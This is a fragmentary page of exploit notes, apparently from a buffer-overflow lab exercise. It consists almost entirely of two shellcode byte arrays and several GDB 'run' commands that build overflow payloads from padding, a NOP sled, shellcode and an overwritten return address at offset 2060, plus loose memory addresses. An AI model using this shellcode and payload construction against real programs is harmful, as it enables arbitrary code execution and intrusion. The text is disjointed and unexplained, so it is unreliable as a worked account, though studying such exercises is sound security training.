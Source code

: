  
 Exact match at offset 2060
 ```
 unsigned char buf[] = 

"\xb8\xd9\xe3\x12\xfb\xd9\xca\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x83\xc5\x04\x31\x45\x0e\x03\x9c\xed\xf0\x0e\x2f\x29\x03\x13\x1c\x8e\xbf\xbe\xa0\x99\xa1\x8f\xc2\x54\xa1\x63\x53\xd7\x9d\x4e\xe3\x5e\x9b\xa9\x8b\x1f\x5b\x4a\x4a\x88\x59\x4a\x36\x21\xd7\xab\x76\xd7\xb7\x7a\x25\xab\x3b\xf4\x28\x06\xbb\x54\xc2\xf7\x93\x2b\x7a\x60\xc3\xe4\x18\x19\x92\x18\x8e\x8a\x2d\x3f\x9e\x26\xe3\x40"


"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"

```shell-session
run $(python -c 'print "\x55" * (2060 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')



run $(python -c 'print "\x55" * (2060 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b" + "\x66" * 4')

0xffffd738:

0xffffd73c

0xffffd73c

x/2000xb $esp+1400

\x3c\7d\xff\xff
0xffffd76c:

0xffffd700
0xffffd73b
0xffffd73c
\xb3\x7d\xff\xff
\x00\x7d\xff\xff

run $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xb8\xd9\xe3\x12\xfb\xd9\xca\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x83\xc5\x04\x31\x45\x0e\x03\x9c\xed\xf0\x0e\x2f\x29\x03\x13\x1c\x8e\xbf\xbe\xa0\x99\xa1\x8f\xc2\x54\xa1\x63\x53\xd7\x9d\x4e\xe3\x5e\x9b\xa9\x8b\x1f\x5b\x4a\x4a\x88\x59\x4a\x36\x21\xd7\xab\x76\xd7\xb7\x7a\x25\xab\x3b\xf4\x28\x06\xbb\x54\xc2\xf7\x93\x2b\x7a\x60\xc3\xe4\x18\x19\x92\x18\x8e\x8a\x2d\x3f\x9e\x26\xe3\x40" + "\xb3\x7d\xff\xff"')

```shell-session
echo $CHARS | sed 's/\\x/ /g' | wc -w


0x56555700 

```